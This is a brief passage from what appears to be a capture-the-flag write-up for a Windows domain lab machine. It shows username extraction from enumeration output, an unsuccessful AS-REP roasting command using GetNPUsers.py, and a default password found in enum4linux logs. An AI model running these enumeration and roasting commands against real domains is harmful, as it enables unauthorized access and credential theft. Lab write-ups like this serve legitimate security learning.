 found users and domain name.

Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local)



save users, asrepoast attack.  No found.

```bash
cat userenum.txt | cut -d " " -f 1 | cut -d "[" -f 2 | cut -d "]" -f 1  > domainuser.lis

# asrepoast, no found.
GetNPUsers.py -usersfile domainuser.list  -no-pass -dc-ip $tip megabank.local/ -format hashcat -outputfile asreproast.hash
```



![image-20221212215740043](./images/image-20221212215740043.png)



check enum4linux log, found password.  Welcome123!


